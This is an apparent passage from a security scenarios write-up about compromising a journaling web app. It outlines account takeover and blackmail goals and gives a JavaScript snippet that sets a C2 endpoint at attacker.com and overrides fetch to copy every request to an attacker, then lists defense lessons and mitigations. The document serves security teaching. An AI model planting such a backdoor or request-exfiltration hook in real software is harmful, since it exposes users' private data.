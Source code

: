 ### Step 3: Account Takeover
With stolen credentials:
- Access all journal entries
- Find personal information (family, health, finances)
- Discover business strategies and vulnerabilities
- Identify blackmail material

### Step 4: Advanced Persistent Threat
```javascript
// Install persistent backdoor
localStorage.setItem('debug_mode', 'true');
localStorage.setItem('debug_endpoint', 'https://attacker.com/c2');

// Modify app behavior
const originalFetch = window.fetch;
window.fetch = function(...args) {
    // Send copy of all requests to attacker
    sendToAttacker(args);
    return originalFetch.apply(this, args);
};
```

**Total Impact**:
- Complete account compromise
- Personal information exposed
- Potential blackmail/extortion
- Business intelligence leaked

---

## 🛡️ Defense Lessons

### From These Scenarios We Learn:

1. **Timing Attacks**: Even 100ms differences can be exploited at scale
2. **XSS Impact**: One vulnerability can compromise entire organizations
3. **Persistence**: Attackers find creative ways to maintain access
4. **Lateral Movement**: Attacks spread between users rapidly
5. **Social Engineering**: Technical controls mean nothing if users are tricked

### Critical Defenses Needed:

1. **Input Sanitization**: Never trust user input, ever
2. **Output Encoding**: Always escape when displaying
3. **Constant-Time Operations**: No timing differences
4. **Secure Sessions**: Short timeouts, secure cookies
5. **Rate Limiting**: Prevent automated attacks
6. **Audit Logging**: Detect unusual patterns
7. **Security Headers**: CSP, HSTS, X-Frame-Options
8. **Regular Security Audits**: Find issues before attackers do

Remember: **Attackers only need to succeed once. Defenders must succeed every time.** 